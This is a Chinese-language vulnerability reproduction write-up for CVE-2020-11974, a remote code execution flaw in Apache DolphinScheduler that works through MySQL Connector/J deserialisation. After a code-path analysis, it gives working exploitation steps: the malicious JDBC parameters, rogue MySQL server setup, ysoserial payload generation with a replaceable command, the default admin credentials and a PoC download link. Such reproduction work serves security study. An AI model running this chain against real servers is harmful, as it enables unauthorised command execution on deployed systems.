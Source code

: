 （CVE-2020-11974）Apache DolphinScheduler 远程代码执行漏洞
==========================================================

一、漏洞简介
------------

CVE-2020-11974与mysql
connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过`jdbc connect`参数输入`{“detectCustomCollations”:true，“ autoDeserialize”:true}`
即可在DolphinScheduler 服务器上远程执行代码

二、漏洞影响
------------

Apache DolphinScheduler = 1.2.0、1.2.1

三、复现过程
------------

### 漏洞分析

看到这个poc的时候

    {"detectCustomCollations":true,"autoDeserialize":true,"serverTimezone":"UTC"}

其实我第一反应就是2019年的blackhat的那个利用但我又不太确定，直到我按照其他师傅复现的19年的blackhat的那个漏洞利用方式来复现成功，仔细分析了一波。我们先看这个创建数据库的接口。当我们点击create之后

![1.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId25.png)

进入该controller

![2.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId26.png)

并调用service层的createDataSource方法

![3.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId27.png)

最终调用DriverManager.getConnection进行连接数据库

![4.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId28.png)

我把这段代码拿出来，有没有很熟悉

    connection = DriverManager.getConnection(datasource.getJdbcUrl(), datasource.getUser(), datasource.getPassword());

![11.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId29.png)

（其实也可以直接用其他师傅之前写的Fake\_Mysql\_Server，我这边就不再去试了。）分析到这里还不够，我们回来看看这个Mysql Connector/j的版本号
5.1.34符合其他师傅复现的那个洞的版本号

![5.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId30.png)

除此以外，发现yso的利用链跟commons-collections的版本号也是3.2.2也不符合，一开始想着去寻找其他的利用链路，后来参考了下fnmsd师傅的文章发现，已经找到了利用链，那就是直接复现这个洞就好了

![6.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId31.png)

跟进
DriverManager.getConnection，继续接着上面的连接分析，而当detectCustomCollations设置为true的时候com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor

![7.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId32.png)

跟进后

![8.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId33.png)

最终进入到getObject

![9.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId34.png)

最终反序列化我们传入的payload

![10.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId35.png)

### 漏洞复现

-   配置mysql

#### 1. 安装rewrite插件

以下安装方式任选其一

##### 【任选】编译插件

下载mysql-5.7.28源码到/root/mysql-5.7.28，`https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz`

       gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices

##### 【任选】直接使用本git仓库中的rewrite\_example.so

复制rewrite\_example.so到/usr/lib/mysql/plugin/rewrite\_example.so即可。

> rewrite\_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

#### 2. 安装插件，建表，插入二进制数据

安装插件

    INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';

建表

1.  创建数据库：codeplutos，请自行创建
2.  建表sql如下

```{=html}
<!-- -->
```
    SET NAMES utf8mb4;
    SET FOREIGN_KEY_CHECKS = 0;

    -- ----------------------------
    -- Table structure for payload
    -- ----------------------------
    DROP TABLE IF EXISTS `payload`;
    CREATE TABLE `payload` (
      `COLLATION_NAME` varchar(255) DEFAULT NULL,
      `CHARACTER_SET_NAME` blob,
      `ID` int(5) DEFAULT NULL,
      `IS_DEFAULT` varchar(255) DEFAULT NULL,
      `IS_COMPILED` varchar(255) DEFAULT NULL,
      `SORTLEN` int(5) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8;

    -- ----------------------------
    -- Records of payload
    -- ----------------------------
    BEGIN;
    INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
    COMMIT;

    SET FOREIGN_KEY_CHECKS = 1;

生成payload

首先ysoserial生成payload（我这里直接用fnmsd师傅改的改的ysoserial.jar)

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRE8u20 "touch /tmp/1.txt" > t

`touch /tmp/1.txt`
这个替换成自己想要执行的命令，在同个目录下用这个py脚本进行转码生成payload字符

    import os
    import binascii
    with open("t", 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()))
            print payload_content

![1.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId41.png)

写入数据库

    set @a=0x这里修改为你的payload；
    update codeplutos.payload set character_set_name = @a;

默认用户名密码登陆

`admin/dolphinscheduler123`

![2.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId42.png)

点击添加数据库

![3.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId43.png)

填入信息，点击create（而不是connect，我在这里踩过坑）

![4.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId44.png)

复现成功，创建了一个1.txt

![5.png](./resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId45.png)

#### 上述中的poc下载地址

`https://download.0-sec.org/Web安全/Apache DolphinScheduler/CVE-2020-11974/DolphinschedulerExploit-master.zip`

参考链接
--------

> https://xz.aliyun.com/t/8304
